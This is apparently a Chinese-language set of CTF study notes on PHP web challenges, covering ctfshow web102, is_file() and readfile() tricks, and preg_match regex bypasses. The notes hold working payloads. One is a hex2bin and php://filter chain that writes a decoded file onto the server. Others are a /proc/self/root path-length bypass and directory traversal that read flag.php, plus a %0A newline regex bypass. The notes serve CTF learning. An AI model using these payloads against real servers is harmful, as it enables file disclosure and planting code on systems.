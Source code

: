 * web102

![image-20241101163549407](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202411011635459.png)

v1需要post一个函数能对$s进行处理，这里post  hex2bin()

v2是读取源码的php代码，必须是数字，用科学计数法绕过

v3是用伪协议创建的文件
<details><summary>遇到的坑</summary></details>

> payload:
>
> ?v2=115044383959474E6864434171594473&v3=php://filter/write=convert.base64-decode/resource=2.php
> post:v1=hex2bin

* ==die()==
  终止程序并输出括号内的提示信息
* ==is_file()==

if_file()能处理的长度有限，超过一点长度就不认为是文件

<font>/proc/self/root/</font>  代表根目录

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

* ==readfile()==

1. 使用php://filter   *中间的过滤器错误只会warning，不影响*

f=php://filter/ctfshow/resource=flag.php

2. 目录穿越

../../../var/www/html/flag.php

## 正则匹配绕过 

### preg_match
* ==m多行模式==

参数为数组时会报错返回0
==$== 匹配结尾位置 

```php
if(preg_match('/^php$/im', $a)) //m多行模式，某一行匹配到就通过
if(preg_match('/^php$/i', $a))  //单行模式，因为有个%0a换行符，则只在第一行匹配
```
绕过：aaa%0Aphp

https://blog.csdn.net/qq_46091464/article/details/108278486  Apache HTTPD 换行解析漏洞(CVE-2017-15715)与拓展

* ==传址==
